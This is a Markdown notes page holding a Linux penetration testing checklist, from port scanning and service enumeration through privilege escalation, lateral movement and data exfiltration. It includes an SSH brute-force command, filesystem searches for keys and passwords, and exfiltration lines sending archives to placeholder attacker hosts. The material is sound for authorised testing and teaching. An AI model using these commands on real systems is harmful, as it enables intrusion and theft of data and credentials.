 ```yaml
---
layout: notes
permalink: /notes/linux/checklist/
title: Linux Penetration Testing Checklist
---
```


# Linux Penetration Testing Checklist

## Initial Access Phase

### Port Scanning
- [ ] Full TCP scan (nmap -p-)
- [ ] UDP scan of common ports
- [ ] Service version detection
- [ ] Script scanning of discovered services
- [ ] Stealth scan: ```nmap -sS <target>```
- [ ] Masscan: ```masscan -p0-65535 <target>```

### Service Enumeration
- [ ] HTTP/HTTPS: ```nikto -h <target>, curl <target>```
- [ ] SSH: ```hydra -l admin -P passwords.txt ssh://<target>```
- [ ] SMB: ```smbclient -L <target>, enum4linux <target>```
- [ ] RPC: ```rpcinfo -p <target>```
- [ ] Databases: ```nmap --script mysql-info <target>, psql <target>```

## Post Exploitation

### Privilege Escalation
- [ ] Check SUID binaries
- [ ] Review sudo permissions
- [ ] Inspect cron jobs
- [ ] Check for kernel exploits
- [ ] Review service configurations
- [ ] Check capabilities: ``` getcap -r / 2>/dev/null ```
- [ ] Check environment variables: ```bash env, export | grep PATH ```
- [ ] Use tools: LinPEAS: ``` ./LinPEAS.sh ```, Linux Smart Enumeration: ``` ./lse.sh ``` pspy64: ``` ./pspy64```

### Lateral Movement
- [ ] Network enumeration
- [ ] Password hunting
- [ ] SSH key discovery
- [ ] Trust relationships
- [ ] ARP table: ip neighbor
- [ ] Routing info: route -n
- [ ] DNS for pivoting: ``` cat /etc/resolv.conf, dig <domain>```

### Data Exfiltration
- [ ] Identify sensitive files
- [ ] Database dumps
- [ ] Configuration files
- [ ] User credentials
- [ ] Exfiltrate via: ``` scp <file> user@attacker:., nc -l 4444 > data.tar.gz, curl -T data.tar.gz https://attacker.com```
- [ ] Additional sensitive files: ```find / -name "*.pem" 2>/dev/null, grep -r "password" / 2>/dev/null```

## Documentation
- [ ] Screenshot evidence
- [ ] Command outputs
- [ ] Exploitation steps
- [ ] Remediation recommendations
- [ ] Use screenshot tool: ```scrot -s```
- [ ] Save outputs: ```uname -a > system_info.txt, sudo -l > sudo_perms.txt```
- [ ] Suggest fixes: ``` “Update kernel to patch DirtyPipe”, “Remove SUID from /usr/bin/find” ```